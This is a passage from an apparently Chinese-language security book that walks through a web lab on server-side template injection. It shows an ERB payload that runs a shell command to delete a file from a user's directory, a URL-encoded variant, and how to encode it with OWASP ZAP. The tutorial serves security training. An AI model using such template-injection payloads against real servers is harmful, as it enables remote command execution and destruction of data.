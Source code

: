 图 7.16 – pwd 命令结果

1.  现在我们可以看到服务器正在执行命令以打印当前工作目录并列出所有文件，让我们构造一个有效载荷，以便从 Carlos 的目录中删除一个文件：

    ```
    <%= system("rm /home/carlos/morale.txt") %>
    ```

成功执行实验将显示一个祝贺页面：

![图 7.17 – 实验已解决](img/Figure_7.17_B18829.jpg)

图 7.17 – 实验已解决

重要说明

如果命令导致错误消息或没有执行，请将有效载荷转换为 URL 编码，例如，`%3C%25%3D%20system%28%22ls%20-a%22%29%20%25%3E`。

使用 OWASP ZAP **编码/解码/哈希**工具或快捷键*Ctrl + E*，如*图 7.18*所示：

![图 7.18 – 编码/解码/哈希工具](img/Figure_7.18_B18829.jpg)
